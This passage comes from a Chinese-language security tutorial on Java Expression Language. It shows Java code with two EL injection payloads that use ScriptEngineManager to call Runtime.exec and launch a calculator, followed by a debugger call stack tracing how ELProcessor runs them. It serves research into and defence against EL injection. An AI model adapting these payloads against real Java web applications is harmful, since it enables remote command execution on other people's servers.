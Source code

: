 表达式语言（Expression Language），或称EL表达式，简称EL，是Java中的一种特殊的通用编程语言，借鉴于JavaScript和XPath。主要作用是在Java Web应用程序嵌入到网页（如JSP）中，用以访问页面的上下文以及不同作用域中的对象 ，取得对象属性的值，或执行简单的运算或判断操作。EL在得到某个数据时，会自动进行数据类型的转换。

ELProcessor也有自己的eval函数，并且可以调用Java对象执行命令。

```
package shell.EL;

import javax.el.ELProcessor;

public class test `{`
    public static void main(String[] args) throws Exception `{`
        String payload = "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"js\").eval(\"var exp='calc';java.lang.Runtime.getRuntime().exec(exp);\")";

        String poc = "''.getClass().forName('javax.script.ScriptEngineManager')" +
                ".newInstance().getEngineByName('nashorn')" +
                ".eval(\"s=[3];s[0]='cmd.exe';s[1]='/c';s[2]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ELeval(payload);
    `}`
    public static void ELeval(String payload)`{`
        payload=payload;
        ELProcessor elProcessor = new ELProcessor();
        try `{`
            elProcessor.eval(payload);
        `}` catch (Exception e) `{`
            e.printStackTrace();
        `}`
    `}`
`}`
```

我们也可以看看EL表达式的底层原理。

#### <a class="reference-link" name="EL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E7%9A%84%E5%BA%95%E5%B1%82%E5%8E%9F%E7%90%86"></a>EL表达式的底层原理

我们使用payload进行debug调试，一直跟着流程走发现最后还是通过反射去执行。

[![](https://p4.ssl.qhimg.com/t01c1917365cf873f29.png)](https://p4.ssl.qhimg.com/t01c1917365cf873f29.png)

最后在AstValue类中执行getValue方法，从而调用payload，之后就会js代码执行的流程一样了。

调用栈：

```
getValue:159, AstValue (org.apache.el.parser)
getValue:190, ValueExpressionImpl (org.apache.el)
getValue:61, ELProcessor (javax.el)
eval:54, ELProcessor (javax.el)
ELeval:20, test (shell.EL)
main:13, test (shell.EL)
```
